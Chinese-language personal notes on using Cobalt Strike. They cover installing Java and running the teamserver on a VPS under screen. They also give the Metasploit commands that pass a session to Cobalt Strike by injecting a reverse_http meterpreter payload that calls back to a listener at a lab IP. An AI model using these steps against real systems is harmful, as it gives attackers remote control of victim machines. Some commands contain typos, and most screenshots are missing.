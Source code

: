 ```yaml
---

---
```




# #21-08-27 Cobalt Strike用法

cs可以在Ubuntu，centos，Windows2008,2012,2019，win7，win10，win11，都可以运行

只要可以执行 java -version 成功

centos安装  yum instal openjdk@13 unzip

cs4.2 最好使用jdk11以上

![](cs用法\image-20210827140254423.png)

![image-20210827140409050](cs用法\image-20210827140409050.png)

![image-20210827160438311](cs用法\image-20210827160438311.png)

**1，bg 会话**

**2.调用payload_inject 模块**

use exploit/windows/local/payload_inject

**3.在该模块上配置与cobalt strike上为同样类型的payload**

set payload windows/meterpreter/reverse_http**（cs程序只支持http和https协议）**

**4.设置 DisablePayloadHandler 为 True，此选项会让 Metasploit Framework 避免在其内起一个 handler 来服务你的 payload 连接，也就是告诉 Metasploit Framework 说我们已经建立了监听器，不必再新建监听器了。**

set disablepayloadhandler true

**5.设置 lhost 和 lport 为 Cobalt Strike 的监听 IP 与端口**

set lhosts 192.168.21.43

set lport 8080

![image-20210827160524003](cs用法\image-20210827160524003.png)

**6，运行run**

![image-20210827162931510](cs用法\image-20210827162931510.png)

![image-20210827163040114](cs用法\image-20210827163040114.png)

![image-20210827163212188](cs用法\image-20210827163212188.png)

![image-20210827173045062](cs用法\image-20210827173045062.png)

![image-20210827174242671](cs用法\image-20210827174242671.png)





#cs在vps上如何后台运行

在vps上安装screen

apt install screen	

screen -S cs （随便起的名字）切换到screen 执行

screen 文件中写的默认端口是1998

![image-20210901190549230](cs用法/image-20210901190549230.png) 

然后再进入cs目录启动teamserver

![image-20210901190716774](cs用法/image-20210901190716774.png)

![image-20210901193355762](cs用法/image-20210901193355762.png)

![image-20210901193502662](cs用法/image-20210901193502662.png)

强制切入 screen -rd cs
